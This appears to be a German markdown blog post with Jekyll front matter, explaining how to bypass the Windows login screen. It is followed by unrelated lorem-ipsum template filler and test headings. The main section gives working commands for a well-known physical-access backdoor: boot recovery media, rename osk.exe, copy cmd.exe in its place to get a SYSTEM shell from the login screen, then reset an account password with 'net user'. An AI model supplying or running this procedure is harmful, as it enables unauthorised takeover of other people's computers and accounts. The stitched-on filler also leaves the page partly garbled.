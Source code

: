 ```yaml
---
layout:     post
title:      Windows Login umgehen (backdoor)

date:       2021-05-01
author:     user

summary:    Windows Login umgehen (backdoor)
categories: Login
thumbnail:  cogs
tags:
            - Windows
            - Login
            - Passwort
            - umgehen
            - backdoor
            - Hintertür
---
```


## Windows Login umgehen (backdoor)

Was wir brauchen:

1. Original Image von Windows (.iso)
2. Bootable USB


Vorgehensweise:

1. Von Windows-USB-Stick booten
2. Computerreparaturoptionen
    ![Thumper](https://i.imgur.com/cgOS11f.jpg) 
3. Problembehandlung
    ![Thumper](https://i.imgur.com/XZsOGe0.jpg)
4. Eingabeaufforderung
    ![Thumper](https://i.imgur.com/MdtXTKA.jpg)
5. Auf C-Platte wechseln
```
C:
```
6. Dann in den Windows Ordner
```
cd Windows\System32
```
7. osk = on screen keyboard (Bildschirmtastatur)
```
dir osk.exe
```
8. Original umbenennen
```
rename osk.exe osk.orig.exe
```
9. cmd.exe zu osk.exe kopieren
```
copy cmd.exe osk.exe
```
10. überprüfen
```
dir osk*
```
10. PC neustartem
11. Erleichterte Bedienung > Bildschirmtastatur - Es wird allerdings cmd.exe gestartet weil wir diese ja zuvor ausgetauscht haben
12. net user *USERNAME* *NEUES PW*
```
net user eski 1234
```
13. Einloggen






[no.link](http://no.struggle.zone)

<del>lorem ipsum</del>

lorem __impsum__

lorem _ipsum_

<ins>lorem impsum</ins>

`lorem` - `ipsum`

##### Test
5

#### Test
4

### Test
3
  
## Test
2

* A
* B
* C
* D

1. A
2. B
3. C

## Image
![Thumper](https://i.imgur.com/DMCHDqF.jpg)

## Zitat
> Lorem ipsum dolor sit amet, consectetur adipiscing elit
